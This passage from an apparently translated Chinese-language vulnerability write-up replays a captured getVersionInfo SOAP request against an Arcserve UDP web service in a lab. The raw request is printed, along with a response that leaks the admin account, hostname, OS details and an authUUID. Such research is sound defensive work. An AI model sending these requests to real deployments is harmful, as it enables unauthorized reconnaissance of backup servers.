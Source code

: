     
    我们可以看到它针对执行了两个SOAP请求/WebServiceImpl/services/FlashServiceImpl，第一个请求（validateUser我们在方法中看到的名称相同）带有凭据，第二个请求附加信息 ( getVersionInfo)。

如果我们复制此请求并针对原始 WebService 手动发送：

  *   *   *   *   * 

    
    
    POST /WebServiceImpl/services/FlashServiceImpl HTTP/1.1Host: 192.168.56.20:8014Content-Length: 887  
    <?xml version='1.0' encoding='UTF-8'?><S:Envelope xmlns:S="<http://schemas.xmlsoap.org/soap/envelope/>"><S:Body><ns2:getVersionInfo xmlns:ns2="<http://webservice.arcflash.ca.com>" xmlns:ns3="<http://backup.data.webservice.arcflash.ca.com/xsd>" xmlns:ns4="<http://data.webservice.arcflash.ca.com/xsd>" xmlns:ns5="<http://export.data.webservice.arcflash.ca.com/xsd>" xmlns:ns6="<http://vsphere.data.webservice.arcflash.ca.com/xsd>" xmlns:ns7="<http://browse.data.webservice.arcflash.ca.com/xsd>" xmlns:ns8="<http://restore.data.webservice.arcflash.ca.com/xsd>" xmlns:ns9="<http://catalog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns10="<http://activitylog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns11="<http://remotedeploy.data.webservice.arcflash.ca.com/xsd>" xmlns:ns12="<http://history.job.data.webservice.arcflash.ca.com/xsd>" xmlns:ns13="<http://webservice.edge.arcserve.ca.com/>"/></S:Body></S:Envelope>
    
    
    得到下一个响应：

  *   *   *   *   *   *   * 

    
    
    HTTP/1.1 200Date: Sat, 04 Feb 2023 11:03:22 GMTServer: ApacheContent-Type: text/xml;charset=utf-8Content-Length: 2853  
    <?xml version='1.0' encoding='UTF-8'?><S:Envelope xmlns:S="<http://schemas.xmlsoap.org/soap/envelope/>"><S:Body><ns2:getVersionInfoResponse xmlns:ns2="<http://webservice.arcflash.ca.com>" xmlns:ns3="<http://history.job.data.webservice.arcflash.ca.com/xsd>" xmlns:ns4="<http://vsphere.data.webservice.arcflash.ca.com/xsd>" xmlns:ns5="<http://data.webservice.arcflash.ca.com/xsd>" xmlns:ns6="<http://backup.data.webservice.arcflash.ca.com/xsd>" xmlns:ns7="<http://browse.data.webservice.arcflash.ca.com/xsd>" xmlns:ns8="<http://restore.data.webservice.arcflash.ca.com/xsd>" xmlns:ns9="<http://catalog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns10="<http://export.data.webservice.arcflash.ca.com/xsd>" xmlns:ns11="<http://remotedeploy.data.webservice.arcflash.ca.com/xsd>" xmlns:ns12="<http://activitylog.data.webservice.arcflash.ca.com/xsd>" xmlns:ns13="<http://webservice.edge.arcserve.ca.com/>"><ns2:return><ns5:majorVersion>9</ns5:majorVersion><ns5:minorVersion>0</ns5:minorVersion><ns5:buildNumber>6034</ns5:buildNumber><ns5:locale>en</ns5:locale><ns5:country></ns5:country><ns5:timeZoneID>America/Los_Angeles</ns5:timeZoneID><ns5:timeZoneOffset>-28800000</ns5:timeZoneOffset><ns5:adminName>SEVENKINGDOMS\\vagrant</ns5:adminName><ns5:localDriverLetters>C:\\</ns5:localDriverLetters><ns5:localADTPackage>-1</ns5:localADTPackage><ns5:productType>2</ns5:productType><ns5:edgeInfoCM><ns5:edgeHostName>kingslanding.sevenkingdoms.local</ns5:edgeHostName><ns5:edgeUrl><https://kingslanding.sevenkingdoms.local:8015/management/></ns5:edgeUrl></ns5:edgeInfoCM><ns5:dataFormat><ns5:timeFormat>h:mm:ss a</ns5:timeFormat><ns5:shortTimeFormat>h:mm a</ns5:shortTimeFormat><ns5:timeDateFormat>M/d/yyyy h:mm:ss a</ns5:timeDateFormat><ns5:dateFormat>M/d/yyyy</ns5:dateFormat></ns5:dataFormat><ns5:isX86>false</ns5:isX86><ns5:isHyperVRoleInstalled>false</ns5:isHyperVRoleInstalled><ns5:isDedupInstalled>false</ns5:isDedupInstalled><ns5:isWin8>true</ns5:isWin8><ns5:isReFsSupported>true</ns5:isReFsSupported><ns5:osName>Windows Server 2019 Datacenter Evaluation</ns5:osName><ns5:hostName>kingslanding</ns5:hostName><ns5:osMajorVersion>10</ns5:osMajorVersion><ns5:osMinorVersion>0</ns5:osMinorVersion><ns5:osBuildNumber>17763</ns5:osBuildNumber><ns5:uefiFirmware>false</ns5:uefiFirmware><ns5:SQLServerInstalled>true</ns5:SQLServerInstalled><ns5:ExchangeInstalled>false</ns5:ExchangeInstalled><ns5:D2DInstalled>true</ns5:D2DInstalled><ns5:ARCserveBackInstalled>false</ns5:ARCserveBackInstalled><ns5:RPSInstalled>true</ns5:RPSInstalled><ns5:settingConfiged>false</ns5:settingConfiged><ns5:dotNetVersion>4.7</ns5:dotNetVersion><ns5:displayVersion>9.0</ns5:displayVersion><ns5:isInCloud>false</ns5:isInCloud><ns5:nodeUUID>d5936919-6cc3-4c8a-b570-bbd39f75ca17</ns5:nodeUUID><ns5:authUUID>6bf37b8e-ac4f-487d-8d74-d6d0a8d9b8d1</ns5:authUUID></ns2:return></ns2:getVersionInfoResponse></S:Body></S:Envelope>
    